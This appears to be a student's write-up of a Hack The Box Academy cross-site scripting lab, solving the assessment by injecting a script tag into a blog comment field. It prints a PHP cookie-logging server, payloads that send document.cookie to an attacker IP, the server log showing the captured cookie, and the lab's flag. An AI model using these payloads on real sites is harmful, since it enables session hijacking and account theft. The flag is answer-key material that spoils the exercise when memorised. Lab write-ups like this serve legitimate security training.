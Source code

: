 ﻿---
sticker: lucide//code
---
We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new`Security Blog`. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the`/assessment` directory on the server using the browser:

 ![](https://academy.hackthebox.com/storage/modules/103/xss_skills_assessment_website.jpg)

Apply the skills you learned in this module to achieve the following:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the`Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag


### Identifying the vulnerable parameter
---

Once we go into the website we can see the following:

![Pasted image 20250130180314.png](../../../IMAGES/Pasted%20image%2020250130180314.png)

If we go to the `Welcome to Security Blog` URL, we can see the following:

![Pasted image 20250130180344.png](../../../IMAGES/Pasted%20image%2020250130180344.png)

At first glance, the comments section seems vulnerable to XSS, let's test some simple payload to check the behavior of the web application, we can set up the same PHP server form the [Session Hijacking](XSS%20Attacks/Session%20Hijacking.md) section:

```php
<?php 
if (isset($_GET['c'])) { 
$list = explode(";", $_GET['c']); 
foreach ($list as $key => $value) { 
$cookie = urldecode($value); 
$file = fopen("cookies.txt", "a+"); 
fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n"); 
fclose($file); 
} 
} 
?>
```

```js
document.location='http://10.10.15.141/index.php?c='+document.cookie; 
new Image().src='http://10.10.15.141/index.php?c='+document.cookie;
```

We can send the payloads in each section to check which one is vulnerable:

```js
"><script src=http://10.10.15.141/script.js></script>
```

![Pasted image 20250130181138.png](../../../IMAGES/Pasted%20image%2020250130181138.png)

After a bit, we'll get the following in our server:

```
[Thu Jan 30 23:10:18 2025] PHP 8.3.15 Development Server (http://0.0.0.0:80) started
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37824 Accepted
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37824 [200]: GET /script.js
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37824 Closing
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37826 Accepted
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37826 [200]: GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1738278667;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37826 Closing
[Thu Jan 30 23:11:09 2025] 10.129.147.238:37828 Accepted
[Thu Jan 30 23:11:14 2025] 10.129.147.238:37828 Closed without sending a request; it was probably just an unused speculative preconnection
[Thu Jan 30 23:11:14 2025] 10.129.147.238:37828 Closing
```

We got the flag: `HTB{cr055_5173_5cr1p71n6_n1nj4}`

![Pasted image 20250130181248.png](../../../IMAGES/Pasted%20image%2020250130181248.png)

